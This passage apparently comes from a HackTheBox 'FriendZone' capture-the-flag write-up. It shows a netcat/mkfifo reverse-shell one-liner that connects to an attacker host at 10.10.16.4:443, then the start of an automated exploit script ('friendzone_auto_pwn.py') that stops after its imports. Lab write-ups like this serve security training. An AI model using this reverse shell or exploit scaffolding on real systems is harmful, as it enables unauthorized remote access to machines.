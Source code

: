 ```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2011:36:12.png)

Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:34:11.png)

friendzone_auto_pwn.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Friendzone Auto Pwn

import argparse
import requests
import sys
import urllib
from smb.SMBHandler import SMBHandler
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
```